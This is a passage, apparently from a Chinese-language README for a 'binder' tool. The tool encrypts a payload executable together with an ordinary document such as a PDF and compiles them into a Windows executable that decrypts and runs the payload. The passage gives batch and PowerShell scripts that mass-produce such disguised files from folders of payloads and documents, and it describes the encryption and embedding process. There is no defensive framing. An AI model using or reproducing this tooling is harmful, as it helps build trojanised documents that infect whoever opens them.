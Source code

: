 ### 调试技巧

#### 查看详细日志

生成的文件在特定情况下会产生调试日志：

```bash
# 检查临时目录中的日志
dir %TEMP%\payload_*.log
```

#### 验证生成的文件

```bash
# 检查文件是否正确生成
dir result\
file result\document.exe
```

## 📚 进阶用法

### 批量处理

创建批处理脚本：

```batch
@echo off
for %%f in (*.pdf) do (
    binder.exe -p payload.exe -f "%%f" -o batch_output
)
```

### 自动化脚本

PowerShell脚本示例：

```powershell
$payloads = Get-ChildItem "payloads\*.exe"
$docs = Get-ChildItem "documents\*.*"

foreach ($payload in $payloads) {
    foreach ($doc in $docs) {
        $output = "output\$($payload.BaseName)_$($doc.BaseName)"
        .\binder.exe -p $payload.FullName -f $doc.FullName -o $output
    }
}
```

## 🔍 技术原理

### 加密过程

1. **密钥生成**: 使用crypto/rand生成32字节安全随机密钥
2. **文件加密**: 使用AES-GCM算法分别加密payload和普通文件
3. **模板嵌入**: 将加密数据和密钥嵌入Go模板代码
4. **代码生成**: 生成包含解密和执行逻辑的完整Go源码
5. **自动编译**: 使用Go编译器生成Windows PE可执行文件
